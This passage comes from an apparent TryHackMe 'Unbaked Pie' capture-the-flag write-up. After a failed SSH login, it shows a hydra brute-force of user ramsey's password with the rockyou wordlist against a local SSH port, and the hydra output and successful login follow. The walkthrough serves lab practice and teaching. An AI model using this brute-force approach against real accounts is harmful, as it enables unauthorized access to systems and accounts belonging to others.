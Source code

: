 ```console
local@local:~/Documents/tryhackme/unbaked_pie$ ss -ltn | grep -i 22
LISTEN  0       4096                0.0.0.0:22           0.0.0.0:* 
```
Now lets try to login as user ramsey with the password we cracked earlier.
```console
local@local:~/Documents/tryhackme/unbaked_pie$ ssh ramsey@localhost
ramsey@localhost's password: 
Permission denied, please try again.
```
But the password was incorrect.
After enumerating the box for a while, I did not get any information regarding the password for user ramsey and hash cracking was not getting nowhere, so I decided to bruteforce the password for user ramsey. As the developer has used some sort of protection for hiding the SSH service, there was chances he/she might have used a weak password.

## Bruteforcing SSH using hydra
```console
local@local:~/Documents/tryhackme/unbaked_pie$ hydra -l ramsey -P /usr/share/wordlists/rockyou.txt ssh://localhost
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-03 18:31:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://localhost:22/
[22][ssh] host: localhost   login: ramsey   password: <ssh-redacted-password>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-03 18:31:24
```
And we get the password instantly.

### Logging as user ramsey
```console
local@local:~/Documents/tryhackme/unbaked_pie$ ssh ramsey@localhost 
ramsey@localhost's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


39 packages can be updated.
26 updates are security updates.


Last login: Tue Oct  6 22:39:31 2020 from 172.17.0.2
ramsey@unbaked:~$ id
uid=1001(ramsey) gid=1001(ramsey) groups=1001(ramsey)

```
